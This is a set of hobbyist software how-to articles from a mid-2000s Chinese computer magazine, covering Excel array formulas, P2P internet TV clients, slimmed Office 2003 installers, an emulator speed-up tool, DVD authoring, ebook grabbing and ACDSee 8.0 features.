第四步：接下来我们通过汇总销售额的例子，来体验一下数组公式如何化繁为简，将多步运算合并为一步。如果使用一般公式来汇总公司的整体收入，通常是先计算出每一项的合计，再把每个合计的销售额（本例中为E列的数据）相加得到总计数额。下面的数组公式则直接从C2至D10数组中计算出结果，完全跳过E列的计算。在B12单元格中（即提示文字“销售总计”后面的单元格），输入以下公式：
=SUM(C2:C10*D2:D10)
按下Ctrl+Shift+回车组合键结束公式，看看销售总计的数字是不是立即显示出来了。这个公式的含义是：将C2:C10列的数字与D2:D10列相应的数字相乘，再通过SUM公式将乘积累加到一起。本例只有三个人的数据，但即使是一万、两万个数据，也同样能在瞬间得出结果，是不是很强大。

### 实战2：有条件的求和

通过上面的实战，相信大家对Excel数组公式已经有了一定的了解。下面再举一个实例，深化一下对它的认识。

第一步：我们经常需要基于一个或者多个条件进行求和，比如在实战1的表格中，如果只想统计某一户型（如：三居）的销售总额，可输入以下公式：
=SUM(IF(B2:B10="三居", C2:C10*D2:D10))

第二步：按下Ctrl+Shift+回车组合键后，得到2134万元的结果。这个公式通过IF函数来进行判断，只将每个人销售的户型为“三居”的销售量与实际单价相乘，再通过SUM函数求和。

#### 一点通

- 数组常量：上面的例子中，数组是保存在单元格区域中的，其实我们还可以将数组保存在内存中，这就是所谓的数组常量。数组常量也是用大括号括起来，在括号里面列出数组的所有元素即可（数组的元素可以是数字、文本、TRUE或FALSE逻辑值），如下例就是一个有着7个元素的数组常量：
{1,2,3,4,5,6,7}

数组常量不用保存在单元格中，直接作为一些函数的参数使用就可以了，如下面这个公式：
=SUM({1,2,3,4,5,6,7})
注意，这个公式仅仅引用了数组作为参数，但是它本身并不是数组公式，所以输入完成后不要按Ctrl+Shift+回车键，直接按回车键就可以了。这个公式将该数组内的所有元素相加，得到的和为：28。

为了使用上的方便，可以为数组常量定义一个名称：执行“插入→名称→定义”菜单命令调出定义名称对话框，在最上面的名称框中输入数组名称（如：“week”），在下面的引用位置框中输入数组各元素（如：“={1,2,3,4,5,6,7}”），定义数组一定要以等号开始，并且用大括号括起来。确定后返回主界面，这时就可以通过名称来引用数组了，比如上面的公式“=SUM({1,2,3,4,5,6,7})”可以改成“=SUM(week)”，得到的结果是一样的，是不是简洁了许多。

数组常量也可以是一维或二维的，如果想把数组中的所有值作为一行，那么用逗号将每个值分开；如果想作为一列，则用分号将每个值分开；逗号与分号并用，则可以创建二维数组常量，如下例就是一个两行三列的一个数组：
{1,2,3;4,5,6}

- 扩展或压缩多单元格数组公式：有时候，我们需要扩展（或者压缩）一个多单元格数组公式，比如在实战1中，如果添加了新的销售人员业绩，那我们就需要扩展E列的数组公式范围，方法如下：

第一步：选取包含数组公式的整个范围，然后按F2键进入编辑方式，接着按Ctrl+回车键将所有选择的单元格中的数组公式变成普通公式。

第二步：选取一个新的范围，根据需要增加或减少原单元格数量，然后再按F2键进入编辑状态，因为范围已有变化，所以需要对原有的数组公式修改一下，比如在实战1中再增加一个王六的数据，他也包括三居、二居、一居这样三个户型，则原公式需要改成：
=C2:C13*D2:D13

第三步：按Ctrl+Shift+回车组合键结束即可。

- 如果是多单元格数组公式，必须全选它之后才能删除，全选多单元格数组公式的方法是：点选任意一个数组公式单元格，再按Ctrl+/组合键即可。此时再按Del键就可以删除它了。

#### 擂台赛

- 数据分析 随心所欲：使用数组公式可以对一组特定的数据进行各种分析，配合使用IF、AND、OR等逻辑函数，更可以从数据中运算分析出自己想要的一些特定结果，如：有条件求和，求一组数据的平均值、最大值、最小值等。有兴趣的读者可以随意根据自己的实际经验设计一个实例，借以充分展现出数组公式的优势。要求设计的实例能贴近生活，具有一定的普适性和实用性。优胜者将可获得《电脑爱好者》杂志社发送的特别奖品。
(安徽 无言)

## “鼠青天”真的是青天吗？

最近，“鼠青天”的确吸引了不少人的目光，我们自己也对这款软件进行了测试。如果还没用过的朋友可以从http://nj.onlinedown.net/soft/42000.htm下载到。

首先，安装好软件，然后运行，这时就会出现需要安装驱动的提示，该驱动是测试鼠标所必须安装的，安装后继续。打开软件界面，点击左上角的“开始测试”按钮，然后左右晃动鼠标，注意幅度不要过小，而且不要停，大约几秒钟后就可以得到测试后的分数了。

测试完成后，别忘了按下F7键，解除测试驱动。

大家的测试结果应该也和我们的相同，而且也应该有个结论：晃动速度及幅度不同，最终测试结果也有所不同，同一款鼠标，我们测试了三次，结果中分别得到了85、87、91的分数，测试出的最终分数也有所不同。那么这款软件测出的数据是否具有公正、权威性呢？我们在询问了有关专家后，得到了如下答复。

“鼠青天”是众誉电子有限公司(生产双飞燕鼠标的厂家)推出的鼠标测试软件，在测试时需要安装自己的驱动，仅从这一点上，就可以对其公正性质疑。一款好的硬件测试程序，是不能建立在驱动程序之上(比如前段时间闹得沸沸扬扬的3DMark事件，就足以说明驱动对测试软件的影响)，仅这一点就要对其公正，公平性表示怀疑。

软件是通过人为的晃动鼠标来检测数值，在无形之中产生了误差，所以也会出现测试数据差别较大的情况。

作为一款公正的测试软件，显然上面这些问题都必须解决的。也许随着软件版本的升级，“鼠青天”会变成一款非常完美的鼠标测试软件，但就现在的2.7版来说，它测试出的数值参考意义不大。
(未名)

## 以BT的名义看电视——主流P2P网络电视使用手记

在没有电视的情况下，想要看电视怎么办? 用电视卡? 没有接收天线，尤其是很多在公司加班的朋友，既没有天线，又没有电视卡，唯一的就只有可以上网的宽带，于是网络电视出现了。不过，但网络电视也有一个最大的弊端，那就是不稳定性，当收看的人数呈几何型增长的时候，收看效果将大打折扣。于是，一种使用P2P技术的网络电视出现了，与传统网络电视不同，P2P网络电视同时观看的人越多，其观看效果就越流畅。这样一来，网络电视最大的弊端就解决了。那么现在都有哪些P2P网络电视，我们应该选择哪一款呢?

### P2P网络电视的原理

其实P2P网络电视和BT下载技术的原理差不多，第一个收看电视的用户先从服务器（类似BT下载中的“种子”）端获取电视信息，这个用户在收看电视的同时，也把自己电脑中的电视节目数据提供给其他人。这样一来，看的人越多，也就越流畅。但不足之处是看P2P网络电视，要比正常的电视有所延迟。

### 经典的P2P网络电视

目前，P2P技术的网络电视有很多，但观看前一般都需要安装Windows Media Player（下载地址:http://www.onlinedown.net/soft/22828.htm）及RealPlayer（下载地址:http://www.onlinedown.net/soft/16622.htm）。

#### 1.企鹅也玩网络电视:QQLive

QQLive是腾讯推出的P2P网络电视软件，速度很快，不过电视台较少。

| 项目 | 内容 |
| --- | --- |
| 软件版本 | 1.0 beta02 |
| 软件大小 | 753KB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 2000/XP |
| 下载地址 | http://tv.qq.com/download.htm |

QQLive会自动安装到QQ所在文件夹，不过QQ电视可以直接单独运行，而不用先打开QQ。

打开QQLive后，软件自动连接服务器，并开始播放。通过左上角按钮，对软件进行控制：“模式按钮”可以快速隐藏或显示播放列表；“双倍屏幕”可以用两倍于原始屏幕的大小观看节目；点击“原始屏幕”可以快速恢复到原始屏幕；“全屏”按钮可以在全屏的状态下观看节目。在有节目播放时，窗口下侧的状态栏上会显示当前的播放状态以及下载情况，用户可以快速了解到当前的下载信息。

##### 实例1:订阅自己想看的电视节目

QQLive支持电视节目订阅功能。打开http://dy.qq.com/cgi-bin/pop?channel_id=18001，输入QQ用户名、密码后，然后订阅，在指定时间软件就会自动播放了。

##### 实例2:内网用户使用QQLive

一些内网用户在使用QQLive时，会出现无法连接服务器的情况（状态栏最左侧显示），对于这种情况需要通过设置Windows Media Player来解决。

右击QQLive播放窗口，选择“选项”，将“连接速度”设置为“检测连接速度（推荐）”或是直接将“选择连接速度”设置为“LAN（10Mbps或更高）”。

优点: 速度快, 播放流畅, 支持订阅功能。

缺点: 网络电视台较少, 因版权问题目前仅有商业电视台; 清晰度较低; 占用资源较大。

适用人群: 喜欢看电视剧、音乐, 关注国外体育及商业频道的朋友们。

#### 2.没有主窗口的网络电视:PPLive

PPLive并没有主界面，在运行PPLive之后会在任务栏中看到它的系统图标。用鼠标右键调出主菜单，在“频道列表”中选择所看的节目，就可打开相应的播放器播放节目了，非常方便。播放时，鼠标移动到系统图标上，就会显示出相应的信息，如连接个数等。

> > 小提示  
> ★除了直接在播放列表中选择频道外，还可以直接到软件的官方网站(http://www.pplive.com)上选取节目。  
> ★对于512Kbps的ADSL用户，不要选择节目源码流率800K或以上的节目观看，不然速度会有些慢。源码流率可以在“频道列表”中查看。  
> ★至截稿时，PPLive已经推出了1.08测试版，新版本变化较大，但由于还在测试阶段，所以本文还是介绍1.0.7.4版。如果你想尝鲜，可以用http://www.newhua.com/cfan/200519/pplivesetup10.8.exe。

##### 实例1:局域网用户看PPLive

很多局域网用户无法使用PPLive，这和局域网无法BT问题相同，对于这种局域网用户可以使用UPNP功能，也就是端口映射（注意网络设置支持才可以使用）。

> > 小提示  
> 有时也会因为电脑防火墙问题无法使用PPLive，可以在端口设置中打开PPLive连接的所有端口来解决此问题，如8008、4004、53。只有开放了这些端口，才能够使PPLive正常工作。

##### 实例2:录制视频节目

不少朋友都想把电视节目录下来，那么网络电视如何录呢? 我们可以使用KMPlayer来完成这个任务。

- 第一步:从http://www.onlinedown.net/soft/3803.htm下载KMPlayer，并安装。KMPlayer是一款全能播放器，可播放多种视频文件，非常不错。
- 第二步:右击PPLive托盘图标，选择“配置”，将“播放器配置路径”设置为KMPlayer所在位置。
- 第三步:右击KMPlayer播放画面，从菜单中选择“截取→另存为AVI文件”。
- 第四步:弹出文件截取窗口，在“文件名”处输入保存位置及文件名，在“编码器”中选择“DivX编码4.11(DivX编码)”，其他设置使用默认，点击“开始”（见图2），就可以录制了。



优点: 电视节目台资源很多, 连接速度很快。

#### 3.稳定的网络电视:沸点网络电视

沸点网络电视是一款播放稳定的网络电视。

| 项目 | 内容 |
| --- | --- |
| 软件版本 | 20050728 |
| 软件大小 | 1237KB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 9x/2000/XP |
| 下载地址 | http://www.onlinedown.net/soft/40766.htm |

沸点网络电视在使用之前会弹出电视频道选择窗口，来选择要观看的电视频道。但沸点网络电视支持的电视频道较少，不过都是大家经常看的频道，还算不错。

沸点网络电视和PPLive有些相似，没有自己的主菜单。启动之后，就会在任务栏中出现沸点网络电视的图标，按鼠标右键可以调出菜单来进行频道切换和重启播放器。

由于沸点网络电视只能收看到十几个电视频道，所以播放的稳定性还算不错，没有遇到不能播放的电视台。但在沸点网络电视的频道列表上只提供了频道的名称，并没有提供同时收看人数、播放质量等重要信息。

优点: 稳定, 速度不错。

缺点: 清晰度不够, 频道数少, 没有配置菜单。

适用人群: 喜欢看凤凰卫视、CCTV-5、CNN等频道的用户。

#### 4.可自建频道的网络电视:CCIP TV

CCIP TV是一款可以自建频道的网络电视。

| 项目 | 内容 |
| --- | --- |
| 软件版本 | 2.0.0.0904 |
| 软件大小 | 2820KB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 9x/2000/XP |
| 下载地址 | http://www.onlinedown.net/soft/38947.htm |

CCIP TV的操作很简单，运行后，可以在上面选择“网络电视”或“网络电台”，然后就可以在右边的播放列表中选择电视台。CCIP TV播放列表中只有5个电视台可供选择，选择的余地和其他软件相比要少很多。但CCIP TV播放电视的效果不错，就算全屏播放也比较清晰，而且没有一点延迟的情况。

##### 实例1:建立自己的频道

虽然CCIP TV只有5个频道可供大家观看，但是它却提供了“自建频道”的功能，这样就可以观看其他网友自行建立的网络电视或精彩电视录像了。

在CCIP TV主界面右侧上部，点击“频道添加搜索”项，在弹出窗口中，可以看到其他网友建立的频道（见图3），双击要添加的频道即可。



##### 实例2:建立自己的频道

CCIP TV不仅可以添加别人建立的频道，更可直接建立自己的频道。

- 第一步: 点击“频道添加搜索→自建频道”。

#### 5.帮你关电脑的网络电视:ppStream

ppStream是一款具有“定时”功能的网络电视。

**ppStream小档案**
软件版本:1.0.0.96
软件大小:875KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.onlinedown.net/soft/40670.htm

在ppStream主界面左边“频道列表”选择要看的电视台，然后用鼠标双击，稍等一会，就会自动连接，播放所选的电视内容。ppStream有大概30~40个的电视节目，在左边的列表中可以看到比特率和同时观看人数，观看人数越多，播放效果就越流畅。
ppStream的播放效果还算不错，有不同的比特率的电视可供大家选择，这样就可以根据自己的网速来进行选择观看。但ppStream的播放速度并不是很流畅，经常在播放中出现停顿的现象，就算在低比特率中这样的现象也经常会出现。

##### 小提示

- 选择“直接采集节目”或“转播节目信号”，可播放采集卡或是电视卡上的内容。这里就不过多给大家进行介绍，感兴趣的朋友可以自行研究一下。

- 优点：可自建频道、添加频道。

- 缺点：对内网支持不够，频道过少。

- 适用人群：想要进行视频广播，想做“播客”的朋友。

##### 实例:定时关机

ppStream具备定时功能，我们进行定时播放音乐，或是关闭电脑等操作。点击菜单中的“工具→定时”，在弹出的“定时”窗口中勾选“定时”项，同时设置好关机时间，并在下拉菜单中选择“关闭计算机”即可。

##### 小提示

在ppStream频道列表中右击，选择“复制网址”，然后可以粘贴至其他播放器中播放。此外我们还可以把ppStream当作一个简单的媒体播放器，来播放本地的电影。

- 优点：独特的定时关闭功能，频道较多。

- 缺点：对内网用户支持不够，播放不流畅

- 适用人群：给喜欢在床上看电视的懒人设计。

### 尾声

目前几个主流的P2P网络电视就给大家介绍到这里。跟传统的网络电视相比，P2P网络电视的资源还是少了一些。不过随着时间的推移，相信资源会越来越多。相比较，笔者认为PPLive这款P2P网络电视无论是播放效果/速度还是可选节目都是最好的，当然这里也不能不提一下QQ电视，虽然现在只能收到几个电视台，而且整体效果不是很好。但因为QQ电视依靠着QQ这个特殊背景和广大的用户基数，笔者相信在不久的将来，QQ电视会有很大的质变。
小编有话说：制作这篇文章后，小编也熟悉了每个网络电视，还发现了一个有意思的现象——除了QQLive，其他所有网络电视都有“湖南卫视”，“超女”的力量真是无处不在呀。

(辽宁 二手三好街 King)

## 关于《极限瘦身Office 2003安装包》一文的补充

本刊《极限瘦身Office 2003安装包》一文，让我获益匪浅。以前经常有朋友在QQ上发消息给我，说“Office传一个过来”或“Word传一个过来”。面对这样的情况，我的回答总是“兄弟，有一张光盘那么大，600多MB，要传？”，面对这样的问题，对方也只能无奈地摇摇头，而第二天不是他来拿光盘，就是我上门跑一趟了。有了此文的帮助，笔者分别制作了Word2003SP1、Excel2003SP1、PowerPoint2003SP1以及上述三个组件合在一起的四个安装包。但在制作和使用过程中，遇到了一些问题。在此，笔者将自己的若干经验写出来作为《极限瘦身Office 2003安装包》一文的补充，希望能给遇到同样问题的读者一点帮助。

### 1.Office 2003 Resource Kit对获取最小安装文件列表的影响

根据《极限瘦身Office 2003安装包》一文作者的思路，在使用Office 2003 Resource Kit定制MST文件后用ORCA工具转换应用到MSI文件并生成我们需要的MSI文件。之后在Filemon工具监视下用新的MSI文件安装便能得到所需要的最小安装文件列表。我按照此步骤做了，并复制出了最小安装文件列表中的文件，也在本机上删除Office 2003后使用提取出来的安装文件安装成功。但将提取出来的安装文件打包发给朋友后，他的电脑却在安装过程中出现了缺少文件的错误。我后来亲自到朋友家，在他电脑测试，发现确实在安装程序进入复制文件这一步骤时出现了错误，而导致安装失败。经分析，怀疑问题出在Office 2003 Resource Kit上。我将自己电脑上的系统用Ghost备份恢复到没装任何软件的“纯净”系统环境，运行提取出来的安装程序安装，结果安装过程出现同样的错误提示而导致安装失败。但在装上Office 2003 Resource Kit后，安装成功。至此，出错原因找到了。

最后，我再全新安装的Windows XP系统下定制安装Office 2003后重新提取了所需文件，发现文件总体积要比前面提取的大10MB左右。用这个安装包在其他电脑上安装过几次后，都没出错。由此可见，应该是Office 2003 Resource Kit已包含了若干Office 2003安装所需要的文件而导致安装程序在安装时未再重新复制这些文件，因此导致了Filemon监视得到的安装文件列表不完整，而使安装过程因缺少文件出错终止。

### 2.关于使用“Not Available， Hidden， Locked”选项的使用

在《极限瘦身Office 2003安装包》一文中，作者使用“Not Available， Hidden， Locked”选项去除了不需要的组件。我在使用过程中发现，用该方法定制出来的安装文件，在安装过程中，使用该选项去除的组件会变成灰色不可选状态。安装后，如果还需要添加其他组件，即使你使用完整的Office 2003光盘来安装，也无法添加。

我的一位朋友在使用我制作的精简版Office 2003后，因编程需要，想再添加一个Access组件，但无论是用制作出的Access安装包，还是提供完整的Office 2003光盘(光盘和以前装的组件的版本一致，都是集成了SP1的)，都无法成功添加Access。

后来，我试着使用Office 2003光盘上的安装程序中“添加并删除功能”功能，进入组件选择界面。Access组件可以勾选，单击“更新”按钮，更新后安装程序出现“Office 2003已被成功地更新”的提示。但Access组件却并未安装上去。后来我又重新运行光盘上的Setup程序，并在选择Access组件后勾选“使用应用程序的高级自定义”选项进入高级自定义界面。笔者发现在高级自定义界面里根本没有Access组件可选。换句话说，Access组件被“Hidden， Locked”了。由此笔者想到了在用Office 2003 Resource Kit自定义安装文件时使用的“Not Available， Hidden， Locked”项。在笔者重新定制了安装文件，将“Not Available， Hidden， Locked”选项更改为“不安装”项后，问题成功解决。

以上是笔者遇到的问题和解决的经验。解决了问题后制作出来的精简版Office 2003不但集成了SP1而且用RAR打包做成自解压文件后携带方便、功能简练。希望笔者的经验能给同样喜欢制作和使用精简版Office 2003的读者带来一些帮助。

(杭州 张伟)

## 让DC模拟器在低配置电脑上飞起来

我平常喜欢玩模拟器，但我的电脑配置不高，玩一些较新机种的模拟器，如DreamCast模拟器(DC模拟器)时，速度就会很慢，不过经过我测试，使用一些加速软件可以让模拟器运行的速度加快，比如Speed Gear就是不错的选择。

**Speed Gear小档案**
软件版本:5.0
软件大小:542KB
软件性质:共享软件(15次试用限制)
适用平台:Windows 2000/XP
下载地址:http://www.onlinedown.net/soft/7307.htm

### 初级应用

安装后，打开软件，将“Set Speed”下的滑块移至最右侧“Fast”处，然后点击“Apply”按钮(见图)，这时速度已经调节完成，再运行DC模拟器，终于可以流畅地运行游戏了。

### 进阶应用

除了用鼠标直接设置速度外，在Speed Gear中，还可以用热键来提速，比如在打CS等全屏游戏时，这个功能就非常不错了。点击“Setting”按钮，就可以设置热键了。默认时，使用Ctrl+Alt+Up进行提速，使用Ctrl+Alt+Down进行降速。使用Ctrl+Alt+S打开Speed Gear窗口。

### 注意事项

在使用Speed Gear时，还有一些需要注意的问题。

- ①在使用Speed Gear时，最好关闭其他软件，尤其是下载软件、浏览器等。毕竟软件是以牺牲稳定性为代价来提升速度的，所以会造成很多软件停止响应，甚至出错。

- ②使用完Speed Gear，当关闭它后，建议注销或重启电脑，如果在注销时出现与音频相关的软件停止响应，这是正常现象。

- ③建议在窗口下运行模拟器，另外，当用Speed Gear加速时，模拟器中是无法正确显示FPS的。

(模拟达人)



## 挑战极限！大容量DVD影碟完全制作手册

现在DVD刻录机已经走入寻常百姓家。如何更好利用这一资源呢？于是很多朋友开始自己在家里制作大容量的DVD压缩影碟，以便将一些喜欢的电影、电视剧等节目保存起来。

根据《电脑爱好者》2005年第8期《挑战极限！制作220分钟的VCD光盘》的介绍，使用TMPGEnc PLUS 2.54版（以下简称TP）载入KVCD模板，可以在一张标称4.7GB的DVD光盘上刻入12小时甚至12小时以上的播放内容。

用过TP的人都知道，TP转换文件的速度非常慢，至少需要与制作影片相同的时间。也就是说，如果制作一张12小时容量的DVD，加上打包和刻录，最少也需要12.5小时。

笔者所要向大家介绍的，是如何运用WinAVI Video Converter（以下简称WVC）和TMPGEnc DVD Author（以下简称TDA），在4小时之内完成一张大容量DVD压缩影碟的制作及刻录的全过程。

在这之前，有必要让大家了解一下，整个DVD压缩影碟制作的简单流程。

1.  通过网络或者其他途径，获取想要制作的视频文件，一般RM、RMVB、AVI三种格式较多；
2.  运用视频转换软件（TP或WVC）将视频转换为我们需要的MPEG1格式；
3.  运用打包软件（TDA或友立录录烧）将转换好的MPEG1文件打包，推荐使用TDA；
4.  用TDA自带的DVD刻录软件刻录，完成制作。

下面是笔者通过测试，将TP与WVC进行的比较，结果如下：

| 原始视频文件类型 | 224M，43分钟，高画质视频 | 156M，43分钟，低画质视频 |
| :--- | :--- | :--- |
| 使用软件 | TP | WVC | TP | WVC |
| 转换后大小 | 270M | 356M | 210M | 188M |
| 转换时间 | 60分钟 | 17分钟 | 45分钟 | 9分钟 |
| 制作一张DVD光盘所需时间 | 约15小时 | 约3小时 | 约14小时 | 约3小时 |

通过以上的对比，转换一张DVD光盘容量的视频文件，使用WVC要比使用TP节省将近半天的时间，差距可想而知。

说了这么多，下面笔者来简单介绍一下WVC和TDA的用法，让我们来亲自进行操作。

第一步：下载，安装并打开WVC（下载地址：http://www.onlinedown.net/soft/29739.htm），目前版本为7.0版（见图1）。单击右下方的“DVD”的按钮。选择需要转换的视频文件，可以同时选择多个文件。

第二步：打开“Any to DVD/VCD/SVCD/MPEG”窗口，用“ReSelect”按钮可以重新选择文件，单击“Browse”按钮选择输出文件存放目录。在“Select Output Format”下拉菜单中选择我们需要的MPEG1格式，单击“Advanced”按钮打开MPEG1格式高级属性。

第三步：在“Output Setting”项下进行输出设置。关于影片质量“Quality”项，电影一般选择“Medium”，连续剧一般选择“Lower”，这样可以获得较好的画质和压缩比。

由于“TMPGEnc DVD Author”会将音频部分转化为48000Hz和128kbps，所以在这里先转换好，再打包时就可以节省很多时间。我们将“Audio Sample Rate”（采样率）设置为“48000”，将“Audio bitrate”（波特率）设置为“128000”。

同时为了便于在电视上播放，还要将“Target Format”设置为“PAL”，“Width”设置为“352”，“Height”设置为“288”。

“Preference”一项是关于制作时偏重于速度还是质量的选项，根据试验选择“By speed”可以获得更高的压缩比，完成高级设置后单击“OK”按钮继续（见图2）。

第四步：这时软件开始转换，窗口上侧有“Preview Movie”（预览视频）、“Refurbish the preview in real time”（实时显示视频）、“Shut down the computer after all work has been complete”（完成任务后关机）三个复选框，可根据实际情况进行选择（见图3）。

接下来的事情就交给WVC自己了，我们所要做的就是喝喝茶，看看电视，等待转换完成了。

第五步：转换好的视频已经有了，也是最消耗时间的操作。现在开始制作DVD菜单，同时打包。所用的软件就是前面提到的TDA。TDA的作用是将MPEG1文件打包成可以供家用DVD机播放的文件格式，以便我们刻录后观看。下载并安装TDA（下载地址：http://www.onlinedown.net/soft/2122.htm）。

第六步：打开TDA，点击上面的“Source setup”（设置源文件）按钮，出现文件选择界面。点击“Add file”按钮，添加刚刚转换的MPEG1文件，对于文件的属性不需要再做修改，直接点击“OK”按钮就可以了。界面下方“Capacity of the created DVD”显示剩余容量。当显示超过刻度线出现红色时，就不能刻入一张4.7GB的光盘了，在这里笔者建议刻度达到4GB左右为宜。界面右侧还有一些编辑选项，在这里不做说明，有兴趣的朋友可以自己研究一下。

第七步：继续点击上方的“Create menu”按钮，打开DVD的播放菜单选项。在预览框中我们看到的就是制作好以后在电视上播放所出现的菜单画面。在左侧下拉列表中可以选择菜单的样式，软件已经自带了七种样式，如果不喜欢，可以选择“New theme…”自己制定喜欢的菜单（见图4）。

“Firstplay action”（播放后第一个动作）一项建议选择“Display Main menu”（显示主菜单），这样当DVD机刚放入光盘就不会立即开始播放，而是进入菜单等待选择。预览窗口中所有虚线框的内容都是可以自己修改的，标题、背景、按钮等也可以选择自己喜欢的类型，通过这些设置，我们可以将自己亲手制作的光盘装点得更有个性。

第八步：单击窗口上方的“Output”按钮，进入输出界面，在“Output folder”中设置文件的存放位置，单击“Begin output”按钮进行打包（见图5）。

第九步：完成后弹出对话框，单击“Open DVD Writing Tool”按钮，打开软件自带的刻录程序（见图6），选择刻录机单击“Write DVD”开始进行刻录，完成后便可以在DVD上播放了。

自此，一张大容量DVD影碟的制作已经全部完成了，用时3小时28分钟。笔者的计算机配置为AMD2500+，主频1.8G，内存1G，如果配置再高，制作速度还会有所提升。

最后，希望大家能做出自己满意的影片，把美好的时光永远保存下来。

（南京 王辉）

## 巧取豪夺网站电子书

不少人喜欢在网上看电子书，但一页一页在网上打开非常不方便，如果不上网就没办法打开，其实，还有很多简单方法。

### 网文快捕捉取法

很多朋友喜欢在论坛发帖贴漫画，如何将它们收集起来呢？我们可以使用网文快捕的抓取功能。

- 很多朋友在贴图时，是每一层贴一张，为了收集方便，需要一次显示更多内容，所以一般先要设置一下每页显示的帖子数。由于不同网站有不同设置方法，这里只给大家举一个例子：进入论坛，在上侧的控制栏中点击“控制面板”，然后选择“编辑选项”，将“每页显示的帖子数”改为“每页显示100帖子”即可。

第一步：打开“网文快捕”主窗口，选择菜单中的“工具→综合设置”，打开“浏览器增强”标签。
第二步：点击“Internet Explorer 右键菜单”下的“配置”按钮。
第三步：在弹出窗口中点击“添加”按钮，将“保存内容”设置为“所有图片”，在“菜单”中输入“保存：所有图片”，“确定”即可（见图1）。
第四步：打开论坛，右击选择“保存：所有图片”，在“快速选择”下勾选“*.jpg”（根据所贴漫画格式而更改），同时修改“图片文件大小大于”为“50000”字节（根据漫画大小进行修改），最后点击“确定”完成抓取。

这样抓取的内容仅有漫画，而不会有其他文字或是签名图等，非常方便。

### 火速链接

很多网站的图书目录都是链接，点入后，就可观看相应的章节，对于这种结构，我们可以直接用网文快捕下载。方法与抓取漫画相似，只是在“Internet Explorer 右键菜单”下的“配置”菜单下设置为“所有链接”。具体操作可以参考2005年第2期《电脑里面开出版社 轻松自制电子书》一文的介绍。

### 使用第三方软件

如果你觉得使用网文快捕很麻烦，那么可以试试MagicGet。它是一款专门用来抓取新浪读书频道、搜狐读书频道、晋江文学三个网站中任意图书内容。

- 软件版本：0.24
- 软件大小：16KB
- 软件性质：免费软件
- 适用平台：Windows 9x/2000/XP
- 下载地址：http://www.newhua.com/cfan/200519/MagicGet024.zip

实例：下载新浪读书频道《礼物》
第一步：我们先用浏览器打开《礼物》的首页，复制下网址。
第二步：运行MagicGet，点击“新浪读书”标签，在“地址”栏中粘贴刚才的地址http://book.sina.com.cn/longbook/sal/thepresent/index.shtml。
第三步：点击“列出目录”按钮，稍候，就会在“结果”框中显示出标题及目录。
第四步：在“抓取内容”按钮左侧选择下载的章节，最后点击“抓取内容”按钮即可（见图2）。完成后，所有的内容都会显示在“结果”框中，复制出内容即可。

- ★ 如果章节过多，则会需要较长的时间，软件处于假死状态，先不用管它，抓取完成后，软件会出现提示。
- ★ “搜狐读书”及“晋江文学”的图书下载可以使用相应的标签，操作方法与“新浪读书”相同。
- ★ 复制出来的图书内容一般会很多，建议使用Word或“写字板”保存它们，而不要使用“记事本”。

（河北省隆化县 卜凤艳）

## 变‘本’加厉的ACDSee 8.0

ACDSee 8.0推出了，这次ACDSee不仅仅是升级了软件，而且还把软件名也升级成了ACDSee 8.0 Photo Manager。顾名思义，新版本增强了很多图片管理方面的功能，而图片浏览本身功能则没有太大变化。下面就来看看ACDSee 8.0的新功能。

### 1. 更快的搜索功能

图片多了，很难找到所需要的图片，这时可以使用ACDSee 8.0新增的快速搜索功能。只要为照片添加了注释信息，通过这个新增的“Quick Search Toolbar”（快速搜索栏）就可以快速搜索到所需要的信息。

打开ACDSee，选择菜单中的“View → Toolbars → Quick Search Toolbar”，就可以在工具栏中看到快速搜索工具栏了。使用时，只要在左侧“Folders”中选择好文件夹，然后进行搜索即可。

如果觉得这样搜索出来的重复太多，不够准确，那么可以，点击工具右侧的倒三角按钮，选择“Set Options”，打开快速搜索窗口进行设置（见图1）。

### 2. 快速建立视频文件及VCD

ACDSee 8.0提供了新的视频建立程序，可以使用向导快速制作出漂亮的视频VCD或视频文件。

第一步：点击菜单中的“Create → Create Video or VCD”，如果是第一次使用，就会弹出下载媒体支持包的窗口，点击“是”后开始下载，并自动进行安装，重启电脑。
第二步：再次选择“Create → Create Video or VCD”，根据向导，选择制作VCD或是视频文件。我们点击“Create VCD”，制作VCD。
第三步：在“Television format”下选择“PAL (Europe, China)”，点击“Next”按钮。
第四步：设置VCD选择菜单。勾选“Use menu system”（使用系统菜单），在“Template”（模板）下选择样式，在“Title”（标题）中输入标题，在“Background”（背景图）中选择背景图，全部设置完成后，点击“Next”按钮。
第五步：现在开始制作视频文件，点击“New Show”按钮，在弹出窗口中的“Title”中输入“01”，点击“OK”。
第六步：在窗口左侧选择“Add Image”，添加视频照片，然后点击“Toggle View Mode”（转换显示模式）。之后，我们可以像在Nero中制作视频VCD一样，右击每张照片中间切换动画按钮，选择“Set Transitions”（设置切换动画），为照片设置切换模式。接着点击左侧的“Add Music/Audio”，添加音乐。
第七步：重复第五步及第六步，添加完所有的视频片段，点击“Next”，对视频进行预览，确认无误后，点击“Next”，进行刻录。

- 在ACDSee主窗口中，点击“Create → Create CD or VCD”，可以打开“Burn Basket”（刻录篮子），我们可以将要刻录的内容直接拖到此窗口中，然后用“Burn”按钮进行刻录。

### 3. 为照片添加特效文字

新版ACDSee在编辑照片时可以直接在照片上添加文字：右击照片，选择“Edit”，打开编辑窗口。在窗口左侧点击“Add Text”，在文字框中输入文字，并进行相应修改即可。

### 4. 快速修复破损照片

有些照片，由于年代久远，扫描进电脑时，会有一些破损，我们可以使用新版ACDSee提供的类似于Photoshop印章功能的“Photo Repair”来修复它们。

第一步：同样是打开编辑窗口，在窗口左侧点击“Photo Repair”（照片修复）。
第二步：根据需要选择“Heal”（修复）和“Clone”（克隆），并设置笔刷的“Nib Width”（宽度）及“Feathering”（羽化）。
第三步：使用时，右键先在照片中选取用于修复/克隆的无破损点，然后用左键在被修复的点上拖拽即可。

### 5. 批量添加Exif信息

如果有大量的照片需要添加或修改Exif信息，在老版本的ACDSee中只能一张一张地操作，而在新版本中，我们可以批量完成这个任务：先用ACDSee选择好图片，点击菜单中的“Tools → Batch Set Information”（工具→批量设置信息），在弹出窗口中点击“EXIF”标签，根据如图2所示输入相应的内容，填写完成后，点击“Perform Set Information”（执行设置信息）按钮即可。

ACDSee 8.0还有很多内容更新，比如更方便的修复红眼等功能。

（石家庄职业技术学院图书馆 李平双）

## 软件·实用软件

## 电脑爱好者

## 小心！你的闪存被窥视了

